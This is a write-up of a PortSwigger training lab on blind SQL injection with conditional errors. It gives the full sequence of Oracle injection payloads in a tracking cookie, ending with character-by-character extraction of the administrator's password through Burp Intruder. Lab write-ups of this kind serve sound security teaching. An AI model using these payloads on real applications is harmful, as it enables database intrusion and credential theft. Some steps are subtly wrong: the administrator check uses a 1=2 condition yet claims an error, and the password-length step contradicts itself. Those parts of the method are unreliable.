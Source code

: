 ## Blind SQL injection with conditional errors

**Title:** Blind SQL injection with conditional errors. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## Preface

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:
``` SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
These inputs use the CASE keyword to test a condition and return a different expression depending on whether the expression is true:

With the first input, the CASE expression evaluates to `a`, which does not cause any error.
With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.
If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true. Using this technique, you can retrieve data by testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought

Modify the `TrackingId` cookie, appending a single quotation mark to it: `TrackingId=oMv'`.Verify that an error message is received. Now change it to two quotation marks: `TrackingId=oMv''`. Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

![poc_internal_server_error.png](../images/internal_server_error.png)

![poc_internal_server_error_no.png](../images/internal_server_error_no.png)

Now we need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: `TrackingId=oMv'||(SELECT '')||'`. In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query: `TrackingId=oMv'||(SELECT '' FROM dual)||'`. As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all `SELECT` statements to explicitly specify a table name.

![poc_database_type.png](../images/database_type.png)

![poc_oracle_db.png](../images/oracle_db.png)

As long as you make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query: `TrackingId=oMv'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`. As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.

![poc_users_table.png](../images/users_table.png)

You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists: `TrackingId=oMv'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. Verify that the condition is true (the error is received), confirming that there is a user called `administrator`.

![poc_administrator_user.png](../images/administrator_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=oMv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This condition should be true, confirming that the password is greater than 1 character in length. And by iterating we concluded password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. In the Positions tab of Burp Intruder, change the value of the cookie to:
`TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`. This uses the `SUBSTR()` function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn. And here comes our cluster bomb option in play. The configuration here we saw earlier in our pervious lab. `TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,§payload_01§,1)='§payload_02§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.

![poc_final.png](../images/final.png)

**Summary:**
1. Confirming vulnerability with `TrackingId=oMv'`, `TrackingId=oMv''`.

2. Confirming SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error with `TrackingId=oMv'||(SELECT '')||'`, `TrackingId=oMv'||(SELECT '' FROM dual)||'`.
 
3. `users` table confirmation with `TrackingId=oMv'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`.
 
4. `administrator` user confirmation with `TrackingId=oMv'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.

5. Password length determination with `TrackingId=oMv'||(SELECT CASE WHEN LENGTH(password)>20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
 
6. Password enumeration with `TrackingId=oMv'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`.
